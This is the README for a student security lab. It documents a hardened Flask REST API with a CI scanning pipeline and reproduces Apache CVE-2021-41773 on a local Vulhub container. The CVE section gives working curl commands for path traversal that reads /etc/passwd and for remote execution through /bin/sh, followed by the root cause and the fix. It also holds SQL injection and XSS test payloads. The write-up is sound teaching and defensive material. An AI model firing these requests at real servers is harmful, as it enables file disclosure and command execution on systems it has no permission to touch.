



# Secure REST API with CI Security Scanning and CVE-2021-41773 Analysis

Laboratory work 1 for the HDU Information Security course.

This repository contains two deliverables:

1. A small but complete Flask REST API with authentication, SQLi/XSS
   protection, automated tests, and a GitLab CI security pipeline.
2. A reproducible analysis of **CVE-2021-41773** (Apache HTTP Server 2.4.49
   path traversal / file disclosure / optional RCE) using Vulhub, including a
   patched environment and a verification script.

> The API is an educational project. The demo accounts and the development
> JWT secret must not be used in production.

## 1. Stack and project structure

- Python 3.11, Flask 3.1
- SQLite (standard library `sqlite3`, bound parameters only)
- `bcrypt` for password hashing
- `PyJWT` for signed access tokens
- `pytest` for functional and security regression tests
- Bandit (SAST) and `pip-audit` (SCA) in GitLab CI
- Docker / Docker Compose for the CVE environment

```text
secure-api/
├── app/
│   ├── __init__.py       # application factory, security headers, error handling
│   ├── db.py             # schema, connection handling, demo data
│   ├── routes.py         # login, protected data endpoints, rate limiting
│   └── security.py       # bcrypt, JWT, validation, HTML output encoding
├── tests/                # 16 functional and security tests
├── cve/                  # Vulhub reproduction, fixed images, verification script
├── docs/                 # evidence and step-by-step guide
├── .gitlab-ci.yml        # active CI pipeline
├── .github/workflows/ci.yml  # equivalent GitHub Actions pipeline
├── Dockerfile
├── docker-compose.yml
├── requirements.txt
└── run.py
```

## 2. Running the API locally

Windows PowerShell:

```powershell
py -3 -m venv .venv
.\.venv\Scripts\Activate.ps1
python -m pip install -r requirements-dev.txt
Copy-Item .env.example .env

# Generate a real secret and put it in .env
python -c "import secrets; print(secrets.token_urlsafe(48))"

$env:JWT_SECRET = "paste-the-generated-value-here"
python run.py
```

The API listens on `http://127.0.0.1:5000`. On first start it creates
`instance/secure_api.sqlite3` and seeds two demo users:

| Username | Password        | Role  |
|----------|-----------------|-------|
| `alice`  | `AlicePass123!` | admin |
| `bob`    | `BobPass123!`   | user  |

With Docker:

```bash
cp .env.example .env          # then set a strong JWT_SECRET
docker compose up --build -d
```

## 3. API

### `POST /auth/login`

Accepts a JSON body. Both `login` and `username` are accepted for compatibility
with the laboratory description.

```bash
curl -s -X POST http://127.0.0.1:5000/auth/login \
  -H "Content-Type: application/json" \
  -d '{"login":"alice","password":"AlicePass123!"}'
```

Response `200`:

```json
{
  "access_token": "eyJhbGciOiJIUzI1NiIs...",
  "token_type": "Bearer",
  "expires_in": 1800
}
```

Wrong password and unknown user both return the same `401` body
`{"error":"invalid credentials"}` to prevent user enumeration.

### `GET /api/data`

Protected. Returns posts. Optional `?q=` performs a parameterized search.

```bash
TOKEN="<access_token>"
curl -s http://127.0.0.1:5000/api/data \
  -H "Authorization: Bearer $TOKEN"
```

Response `200`:

```json
{
  "count": 2,
  "items": [
    {
      "id": 2,
      "title": "Security note",
      "body": "Always validate and encode untrusted data.",
      "author": "alice",
      "created_at": "2026-10-19 02:29:32"
    }
  ]
}
```

### `POST /api/data`

Protected. Creates a post. `title` is limited to 100 characters, `body` to 2000.

```bash
curl -s -X POST http://127.0.0.1:5000/api/data \
  -H "Authorization: Bearer $TOKEN" \
  -H "Content-Type: application/json" \
  -d '{"title":"Hello","body":"This is a post"}'
```

### `DELETE /api/data/<id>`

Protected. Allowed for the post author or an `admin`. Other users receive `403`.

### `GET /api/me` and `GET /health`

`/api/me` returns the authenticated identity. `/health` is an unauthenticated
liveness probe.

## 4. Security measures

### 4.1 SQL injection protection

Every SQL statement is a fixed string with `?` placeholders. User input is only
passed through the second argument of `sqlite3.execute()`:

```python
rows = conn.execute(
    """
    SELECT ... FROM posts
    WHERE posts.title LIKE ? OR posts.body LIKE ?
    ORDER BY posts.id DESC
    """,
    (f"%{query}%", f"%{query}%"),
).fetchall()
```

There is no f-string, `%` formatting, or concatenation in SQL. The test
`test_sql_injection_in_search_is_not_executed` sends `' OR 1=1 --` and asserts
that zero rows are returned. Parameterized statements also protect login.

### 4.2 XSS protection

The API applies defense in depth:

1. Input validation removes control characters and enforces length limits.
2. All user-controlled strings are HTML-escaped on output with
   `html.escape(value, quote=True)`.
3. Responses are JSON with `Content-Type: application/json`, plus
   `X-Content-Type-Options: nosniff`, `X-Frame-Options: DENY`, and a restrictive
   `Content-Security-Policy`.

Example: `<script>alert("xss")</script>` is returned as
`&lt;script&gt;alert(&quot;xss&quot;)&lt;/script&gt;`, so a browser cannot treat
it as executable markup. The test
`test_xss_payload_is_escaped_on_output` verifies this for both stored and
returned data.

Output encoding is context-specific: HTML escaping is correct for HTML
responses. A client that renders data into another context (SQL, shell, URL)
must apply the encoding appropriate to that context.

### 4.3 Authentication and session security

- Passwords are hashed with **bcrypt** (cost 12) and a random per-password
  salt. Plaintext passwords are never stored or logged.
- Successful login returns a **JWT HS256** token with `sub`, `username`,
  `role`, `iss`, `aud`, `iat`, `nbf`, `exp`, and `jti` claims.
- Tokens expire after 30 minutes by default.
- The `require_auth` middleware checks the `Authorization: Bearer` header,
  verifies the signature with a server-side secret, validates issuer,
  audience, expiry, and required claims, and confirms that the user still
  exists.
- PyJWT is called with `algorithms=["HS256"]`, which prevents `alg: none` and
  algorithm-confusion attacks.
- Login failures are rate-limited (5 attempts per IP+username per 5 minutes)
  and use a generic error message.
- The JWT secret is read from the environment. `.env` is git-ignored.

### 4.4 Additional hardening

- Maximum request body size: 64 KiB.
- JSON error responses do not expose stack traces.
- Security headers on every response.
- Ownership check on delete (IDOR/broken access control).

## 5. Tests and CI

Local results:

```text
$ pytest -q
................                                                         [100%]
16 passed in 0.90s

$ bandit -r app -f txt
No issues identified.

$ pip-audit -r requirements.txt
No known vulnerabilities found
```



The active pipeline is GitLab CI (`.gitlab-ci.yml`), because the submission
repository is hosted on `gitlab.se.ifmo.ru`. An equivalent GitHub Actions
workflow is also included for portability.

The pipeline runs on every push and merge request:

1. installs dependencies;
2. runs `pytest`;
3. runs **Bandit** SAST and writes `reports/bandit.json`;
4. runs **pip-audit** SCA and writes `reports/pip-audit.json`;
5. uploads the JSON reports as job artifacts even if a scan fails.

### Screenshots from GitLab CI

After the pipeline finishes:

1. Open **Build → Pipelines** and select the latest successful pipeline.
2. Screenshot the pipeline graph (all three jobs green).
3. Open the `bandit` job and screenshot its log.
4. Open the `pip-audit` job and screenshot its log.
5. Optionally open **Browse artifacts** and screenshot the JSON reports.

Add the images to `docs/screenshots/` and reference them here:

```markdown



```

## 6. CVE analysis: CVE-2021-41773

### 6.1 Vulnerability

**CVE-2021-41773** is a path traversal and file disclosure vulnerability in
Apache HTTP Server **2.4.49**. A change to path normalization allowed a URL
containing encoded dot segments (`%2e`) to map outside the document root.
If the filesystem root was configured with `Require all granted`, an
unauthenticated attacker could read arbitrary files. If `mod_cgi`/`mod_cgid`
was enabled, the same primitive could execute commands.

Affected version: 2.4.49. CVSS 3.1: **9.8 (Critical)**. NVD notes that this
issue was exploited in the wild. The first patch in 2.4.50 was incomplete
(CVE-2021-42013), so the safe target is **2.4.51 or later**.

### 6.2 Vulnerable environment

```bash
git clone --depth 1 --filter=blob:none --sparse https://github.com/vulhub/vulhub.git
cd vulhub
git sparse-checkout set httpd/CVE-2021-41773
cd httpd/CVE-2021-41773

docker compose build
docker compose up -d
```

The service is available at `http://127.0.0.1:8080`.

If Docker Hub is unreachable from your network, pull the same images through a
registry mirror and retag them locally before building:

```bash
docker pull dockerproxy.net/vulhub/httpd:2.4.49
docker tag  dockerproxy.net/vulhub/httpd:2.4.49 vulhub/httpd:2.4.49

docker pull dockerproxy.net/library/httpd:2.4.51
docker tag  dockerproxy.net/library/httpd:2.4.51 httpd:2.4.51
```

The mirror only supplies the image bytes; the build and all tests still run
locally.

### 6.3 Reproduction

File disclosure:

```bash
curl -v --path-as-is \
  http://127.0.0.1:8080/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```

Expected vulnerable result: the contents of `/etc/passwd`, including the
`root:x:0:0` line.

Remote code execution (CGI is enabled in the Vulhub image):

```bash
curl -v --data "echo;id" \
  'http://127.0.0.1:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh'
```

Expected vulnerable result: output containing `uid=...`.

The automated script performs both requests and prints the HTTP status and
body:

```powershell
powershell -ExecutionPolicy Bypass -File .\cve\reproduce.ps1
```

### 6.4 Root cause

The vulnerability is a **path normalization flaw**, not a missing password or a
simple injection. Apache 2.4.49 introduced a new normalization routine that
failed to collapse encoded dot segments consistently before mapping the URL to
the filesystem. A request such as

```text
/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```

passed the access checks for the existing `/icons/` directory and was then
resolved to `/etc/passwd`. Two conditions made the impact severe:

1. the path mapping escaped the document root;
2. the Vulhub image grants access to `/` (`Require all granted`), so the
   escaped path was not blocked by Apache's usual `Require all denied` default.

The CGI variant is the same path traversal primitive aimed at `/bin/sh`, which
turns file access into command execution.

### 6.5 Fix

The primary fix is to upgrade Apache HTTP Server to **2.4.51**, where path
normalization was corrected. This repository also applies defense in depth:

- upgrade `FROM vulhub/httpd:2.4.49` to `FROM httpd:2.4.51`;
- restore `Require all denied` for `<Directory />`;
- keep `Require all granted` only for the document root and CGI directory;
- disable unused modules where possible.

See `cve/fixed-hardened/Dockerfile` and `cve/fixed-hardened/docker-compose.yml`.

### 6.6 Verification

```powershell
powershell -ExecutionPolicy Bypass -File .\cve\verify-fix.ps1
```

The script starts three environments:

| Environment | Port | Expected traversal |
|-------------|------|--------------------|
| Vulhub 2.4.49 | 8080 | `200`, `/etc/passwd` disclosed |
| 2.4.51, original permissive config | 8081 | `400`, no disclosure |
| 2.4.51, hardened config | 8082 | `400`, no disclosure |

It also requests `/` on the fixed environment to confirm that normal
functionality still works (regression test).

### 6.7 Screenshots

Store the reproduction and fix screenshots in `docs/screenshots/`:

```markdown


```

## 7. Submission checklist

- [ ] Public GitHub/GitLab repository URL: `<add URL>`
- [ ] Last successful pipeline URL: `<add URL>`
- [ ] README includes API, security measures, CI, CVE, root cause, fix, proof
- [ ] Screenshots of SAST/SCA reports added to `docs/screenshots/`
- [ ] CVE reproduction screenshots added
- [ ] Fixed files included in `cve/fixed-hardened/`
- [ ] Report title page filled with surname, name, variant, HDU number

## 8. References

- OWASP Top 10 2021: <https://owasp.org/www-project-top-ten/>
- OWASP SQL Injection Prevention Cheat Sheet:
  <https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html>
- OWASP XSS Prevention Cheat Sheet:
  <https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html>
- JWT introduction: <https://jwt.io/introduction>
- GitHub Actions: <https://docs.github.com/en/actions>
- GitLab CI/CD: <https://docs.gitlab.com/ee/ci/>
- Vulhub: <https://github.com/vulhub/vulhub>
- NVD CVE-2021-41773: <https://nvd.nist.gov/vuln/detail/CVE-2021-41773>
- Apache 2.4 vulnerabilities:
  <https://httpd.apache.org/security/vulnerabilities_24.html>
